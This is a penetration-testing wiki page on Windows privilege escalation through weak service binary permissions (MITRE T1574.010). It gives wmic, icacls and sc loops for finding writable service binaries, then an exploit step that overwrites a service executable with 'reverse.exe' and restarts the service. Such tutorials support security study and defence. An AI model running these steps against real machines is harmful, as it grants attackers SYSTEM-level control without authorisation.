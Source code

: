 ```yaml
---
description: MITRE ATT&CK™ Hijack Execution Flow - Services File Permissions Weakness - Technique T1574.010
---
```


# Weak File Permissions

## Theory

It is very often in Windows environments to discover services that run with SYSTEM privileges. If you have write permissions over the folder or binary used by the service you can use it to escalate you privileges.

## Practice

If we have enough permissions over the binary of a service, we can replace it to our own binary. If you have write permissions over the folder you can do [DLL Hijacking](weak-files-permissions.md)

{% tabs %}
{% tab title="Enum" %}
We can get every binary that is executed by a service using wmic and check your permissions using icacls

```powershell
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> %temp%\perm.txt

for /f eol^=^"^ delims^=^" %a in (%temp%\perm.txt) do cmd.exe /c icacls "%a" 2>nul | findstr "(M) (F) :\"
```

Or we can use `sc` and `icacls`

```powershell
#Get list of services
sc query state= all | findstr "SERVICE_NAME:" >> C:\Temp\Servicenames.txt

#Get each permissions over BINARY_PATH_NAME 
FOR /F "tokens=2 delims= " %i in (C:\Temp\Servicenames.txt) DO @echo %i >> C:\Temp\services.txt
FOR /F %i in (C:\Temp\services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> C:\Temp\path.txt
```

Or we can use the `servicesinfo` module of [WinPeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

```powershell
winPEASx64.exe servicesinfo
```
{% endtab %}

{% tab title="Exploit" %}
We just have to replace the binary.

```powershell
copy /y c:\Temp\reverse.exe "c:\Program Files\File Permissions Service\filepermservice.exe"
```
And then, restart the service
```powershell
#Using wmic
wmic service <Service_Name> call stopservice
wmic service <Service_Name> call startservice

#Using net
net stop <Service_Name> && net start <Service_Name>

#Using sc.exe
sc stop <Service_Name>
sc start <Service_Name>
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---incorrect-permissions-in-services" %}
